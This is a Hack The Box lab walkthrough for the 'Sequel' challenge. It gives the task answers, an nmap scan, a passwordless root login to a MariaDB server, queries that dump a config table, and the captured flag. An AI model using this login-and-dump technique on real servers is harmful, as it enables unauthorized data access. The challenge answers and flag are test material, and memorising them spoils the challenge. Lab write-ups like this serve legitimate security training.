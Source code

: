 # Sequel
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Sequel
* Topic: SQL
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym SQL stand for? 
 - **Structured Query Language**
2. During our scan, which port running mysql do we find? 
- **3306**
3. What community-developed MySQL version is the target running? 
- **MariaDB**
4. What switch do we need to use in order to specify a login username for the MySQL service? 
- **-u**
5. Which username allows us to log into MariaDB without providing a password? 
- **root**
6. What symbol can we use to specify within the query that we want to display everything inside a table? 
- \*
7. What symbol do we need to end each query with? 
- **;**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.95.232
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 17:36 EDT
Nmap scan report for 10.129.95.232
Host is up (0.065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 67
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsCompression, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Support41Auth, FoundRows, SupportsLoadDataLocal, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolNew, ODBCClient, LongColumnFlag, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: 4:fr+{OVC.YY0$bEn|D|
|_  Auth Plugin Name: mysql_native_password
|_sslv2: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 205.29 seconds
```

MyQSL is running on port x. We can connect using `mysql`.

Command:

`mysql -h 10.129.148.58 -u root`

`-h`: Connect to host {IP}.

`-u`: Log on as user {user}.

```console
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.129.148.58 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 225
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
```

`show databases;` to print the contents of the database.

Remember the `;` at the end of the command.

```
MariaDB [(none)]> show databases;

+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.067 sec)
```

`use htb;` to select table 'htb'.

```
MariaDB [(none)]> use htb;

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

`show tables;` to show the contents of the table.

```
MariaDB [htb]> show tables;

+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.064 sec)
```

`select * from config;` show all entries in the 'config' table.

```
MariaDB [htb]> select * from config;

+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.063 sec)
```

And we got the flag!

**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

---
**Tags:** [[Hack The Box]]